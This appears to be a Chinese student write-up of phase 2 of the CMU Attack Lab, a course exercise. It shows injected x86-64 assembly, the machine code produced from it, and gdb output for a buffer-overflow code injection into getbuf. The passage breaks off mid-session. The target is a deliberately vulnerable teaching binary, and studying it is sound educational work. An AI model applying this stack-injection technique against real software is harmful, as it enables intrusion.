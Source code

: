 1)  查看touch2的入口地址：

```
Dump of assembler code for function touch2:
   0x00000000004017ec <+0>:     sub    $0x8,%rsp
   0x00000000004017f0 <+4>:     mov    %edi,%edx
```

touch2的入口地址位0x4017ec

2)  需要注入的代码：

```
mov $0x59b997fa,%rdi  # rdi = My Cookie = 0x59b997fa
pushq $0x4017ec
ret
```

3)  生成机器码 

```
gcc -c phase2.s -o phase2.o
objdump -d phase2.o> phase2.d
```

查看phase2.d如下所示：

```
phase2.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:	48 c7 c7 fa 97 b9 59 	mov    $0x59b997fa,%rdi
   7:	68 ec 17 40 00       	pushq  $0x4017ec
   c:	c3                   	retq
```

可以看出这一段程序的机器码为：

```
48 c7 c7 fa 97 b9 59 68 ec 17 40 00 c3
```

4)  生成字节码并注入程序

注入过程可以类似Level 1，但是这回不是返回touch2的入口地址，而是需要返回我们要注入的这段程序。其实把这段程序当作getbuf输入的字符，输入进getbuf函数的栈帧中，再使用缓冲区溢出的方法，将ret的返回地址设置为缓冲区的入口地址即可：

```
(gdb) disas getbuf
Dump of assembler code for function getbuf:
   0x00000000004017a8 <+0>:     sub    $0x28,%rsp
   0x00000000004017ac <+4>:     mov    %rsp,%rdi
   0x00000000004017af <+7>:     callq  0x401a40 <Gets>
   0x00000000004017b4 <+12>:    mov    $0x1,%eax
   0x00000000004017b9 <+17>:    add    $0x28,%rsp
   0x00000000004017bd <+21>:    retq
End of assembler dump.
(gdb) break *0x4017b4
Breakpoint 1 at 0x4017b4: file buf.c, line 16.
(gdb) run -q
Starting program: /home/minimips/Desktop/CMU实验_2018/Attack lab/target1/ctarget -q
Cookie: 0x59b997fa
Type string:1111

Breakpoint 1, getbuf () at buf.c:16
16      buf.c: No such file or directory.
(gdb) disas
Dump of assembler code for function getbuf:
   0x00000000004017a8 <+0>:     sub    $0x28,%rsp
```